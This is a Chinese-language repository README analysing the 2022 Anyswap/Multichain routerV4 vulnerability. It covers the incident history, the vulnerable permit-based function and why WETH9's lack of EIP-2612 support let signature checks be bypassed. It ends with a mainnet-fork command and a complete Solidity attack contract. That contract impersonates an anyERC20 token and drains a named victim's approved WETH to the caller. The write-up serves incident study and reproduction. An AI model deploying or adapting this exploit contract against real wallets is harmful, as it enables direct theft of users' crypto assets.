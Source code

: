 ### 事件简述

Anyswap是一个去中心化的跨链交换协议。

于2020年7月开始运行。

2021年7月11日, AnySwap Router V3 受到黑客攻击并损失787万美元。

2021年12月16日, Anyswap宣布更名为Multichain。

2022年1月18日，Multichain于medium发布漏洞预警信息，文章中称发现一严重漏洞，影响6个跨链Token，呼吁代币拥有者尽快转移资产。

尽管Multichain声称已经修复了漏洞，但是在当天还是有攻击者成功窃取了总价值约1400万美金的加密资产。



### 漏洞原理简析

1. `routerV4`合约没有对用户传入的Token地址做合法性校验

2. `WETH9`并不兼容`routerV4`的部分逻辑设计

* 漏洞代码

```js
function anySwap_OutUnderlying_WithPermit(
    address from,
    address token,
    address to,
    uint amount,
    uint deadline,
    uint8 v,
    bytes32 r,
    bytes32 s,
    uint toChainID
) external {
    address _underlying = AnyswapV1ERC20(token).underlying();
    IERC20(_underlying).permit(from, address(this), amount, deadline, v, r, s);
    TransferHelper.safeTransferFrom(_underlying, from, token, amount);
    AnyswapV1ERC20(token).depositVault(amount, from);
    _anySwapOut(from, token, to, amount, toChainID);
}
```


#### EIP-2612

EIP-2612为ERC-20标准增加了一个新的方法：`permit`

它允许用户在链下签署授权的交易，生成任何人都可以使用并提交给区块链的签名。

该标准优化了传统ERC20Token对用户不友好的两步过程：

```
approve + transferFrom
```

简单来说：过去要approve后我们才能把代币转给别的合约。
但如果该代币支持了permit(例如DAI)，那我们就可以透过在链下用私钥签署产生一个签名，
使用这个签名，别人（其他EOA或者合约地址）就可以帮我们呼叫permit然后把代币转走。

* 然而`WETH9`并不支持`EIP-2612`协议, AnySwap在功能设计上没有考虑到规避这一点


### 攻击步骤分析

* 在正常使用逻辑中

用户调用`anySwapOutUnderlyingWithPermit`函数, 传入的token地址应为Anyswap官方部署的`anyERC20`地址, 在成功校验用户传入的签名后, 进行与之对应的`ERC20`转账操作.

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/3.png)


事实上Anyswap并没有部署与`WETH9`对应的`anyWETH`合约, 于是攻击者自己部署了一个假的

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/1.png)


这样攻击者就绕过了签名的校验, 把受害人的`WETH`转到了自己的账户

### 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```


